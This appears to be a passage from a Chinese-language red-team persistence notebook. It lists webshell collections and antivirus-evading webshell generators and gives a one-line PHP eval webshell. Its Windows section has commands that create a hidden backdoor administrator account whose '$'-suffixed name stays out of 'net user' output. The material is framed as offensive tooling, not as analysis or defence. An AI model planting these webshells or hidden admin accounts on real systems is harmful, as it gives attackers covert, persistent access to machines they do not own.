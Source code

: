 
## webshell

<p align="center">
    <img src="../../../../assets/img/安全/笔记/RedTeam/权限维持笔记/1.png" width="50%">
</p>

- [JoyChou93/webshell](https://github.com/JoyChou93/webshell) - 入侵分析时发现的 Webshell 后门
- [LandGrey/webshell-detect-bypass](https://github.com/LandGrey/webshell-detect-bypass) - 绕过专业工具检测的 Webshell 研究文章和免杀的Webshell
- [yzddmr6/webshell-venom](https://github.com/yzddmr6/webshell-venom) - 免杀webshell无限生成工具(利用随机异或无限免杀D盾)
- [tennc/webshell](https://github.com/tennc/webshell) - 一个 webshell 收集项目
- [S9MF/S9MF-php-webshell-bypass](https://github.com/S9MF/S9MF-php-webshell-bypass) - 为方便WAF入库的项目 | 分享PHP免杀大马 | 菜是原罪 | 多姿势(假的就一个)
- [yzddmr6/as_webshell_venom](https://github.com/yzddmr6/as_webshell_venom) - 免杀 webshell 无限生成工具蚁剑版
- [backlion/webshell](https://github.com/backlion/webshell) - 这是一些常用的 webshell
- 一句话 `<?php eval($_POST[1]);?>`
- phpinfo `<?php phpinfo() ?>`

**爆破 webshell**
- [shmilylty/cheetah](https://github.com/shmilylty/cheetah) - 一个专用于爆破 webshell 的工具

---

# win
## 后门用户

```bash
net user PHPNET$ 1234abcd~ /add                 # 添加用户
# Windows 的帐号名称后带着"$"符号时,不会在 net user 命令中显示出帐号信息

net localgroup administrators PHPNET$ /add      # 将用户添加到管理组

net user PHPNET$ /del                           # 删除用户
query user                                      # 查看会话
logoff <ID号>                                   # 踢掉
```

